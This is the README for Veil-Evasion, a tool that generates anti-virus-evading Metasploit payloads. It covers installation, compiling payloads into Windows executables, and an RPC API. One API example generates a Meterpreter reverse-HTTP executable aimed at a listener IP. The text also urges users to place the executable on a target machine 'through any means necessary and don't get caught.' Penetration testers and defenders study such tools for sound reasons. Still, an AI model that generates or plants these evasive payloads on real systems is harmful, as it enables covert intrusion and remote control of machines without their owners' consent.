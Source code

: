 # Veil-Evasion

Veil-Evasion is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.

NOTE: `./setup/setup.sh` should be re-run on every major version update. If you receive any major errors on running Veil-Evasion, first try re-running this script to install any additional packages and update the common configuration file.

Veil-Evasion is currently under active support by @ChrisTruncer, @TheMightyShiv, @HarmJ0y.

Thanks to:
* @jasonjfrank
* @mjmaley
* @davidpmcguire

## Software Requirements:

### Linux

1.  Use Kali (x86) and all dependencies are pre-installed

**or**

1.  Install Python 2.7
2.  Install PyCrypto >= 2.3

### Windows (for Py2Exe compilation)

1.  Python (tested with x86 - http://www.python.org/download/releases/2.7/)
2.  Py2Exe (http://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)
3.  PyCrypto (http://www.voidspace.org.uk/python/modules.shtml)
4.  PyWin32 (http://sourceforge.net/projects/pywin32/files/pywin32/Build%20218/pywin32-218.win32-py2.7.exe/download)

## Setup (tl;dr)

Run `./setup/setup.sh` on Kali x86 (for Pyinstaller).

Install Python 2.7, Py2Exe, PyCrypto, and PyWin32 on a Windows computer (for Py2Exe).

### Quick Install

```bash
sudo apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd veil-Evasion/
bash setup/setup.sh -s
```

## Description

Veil-Evasion was designed to run on Kali Linux, but should function on any system capable of executing python scripts.  Simply call Veil-Evasion from the command line, and follow the menu to generate a payload.  Upon creating the payload, Veil-Evasion will ask if you would like the payload file to be converted into an executable by Pyinstaller or Py2Exe.

If using Pyinstaller, Veil-Evasion will convert your payload into an executable within Kali.

If using Py2Exe, Veil-Evasion will create three files:

* payload.py - The payload file
* setup.py - Required file for Py2Exe
* runme.bat - Batch script for compiling the payload into a Windows executable

Move all three files onto your Windows machine with Python installed.  All three files should be placed in the root of the directory Python was installed to (likely C:\Python27).  Run the batch script to convert the Python script into an executable format.

Place the executable file on your target machine through any means necessary and don't get caught!

## RPC Server
On the listener side, run:

`./Veil-Evasion --rpc`

This will start a listener on port 4242.

REST API is entirely JSON based, both requests and respoonses. The following is the format:

```
    version:
        request => {'action': 'version'}
        response <= {'version': <version info>}

    module options:
        request => {'action': 'options', 'name': '<module name>'}
        response <= {<Dict: <option key> => <optiion value>}

    generate:
        requests => {'action': 'generate', 'payload': {Dict: <option key> => <option value}}
        response <= {'path': '<path to binar>'}

    if there is an error processing the request, the response will be:
        {'error': '<some error message>'}
```

This is a simple example of working with Veil-Evasion using Python and python-requests.

```
In [35]: import requests

In [36]: requests.post('http://127.0.0.1:4242/', data=json.dumps({'action': 'generate', 'options': {'payload': 'c/meterpreter/rev_http', 'LHOST': '192.168.2.236', 'outputbase': 'hello'}})).content
Out[36]: '{"path": "/usr/share/veil-output/compiled/hello.exe"}'

In [37]: requests.post('http://127.0.0.1:4242/', data=json.dumps({'action': 'options', 'name': 'c/meterpreter/rev_http'})).contentOut[37]: '{"LPORT": ["8080", "Port of the Metasploit handler"], "COMPILE_TO_EXE": ["Y", "Compile to an executable"], "LHOST": ["192.168.2.236", ""]}'
```

In order to generate a payload, *ALL* parameters must be included:

* payload - which payload to generate
* outputbase - the name to save the payload as
* LHOST - the ip address for the listening host
* LPORT - the port for the listening host
* pwnstaller - True to package python programs into an executable. False if not. Ignored for other payloads

This is a good reference to understand whether or not in use pwnstaller: http://www.verisgroup.com/blog/2014/05/07/pwnstaller-and-the-veil-framework/

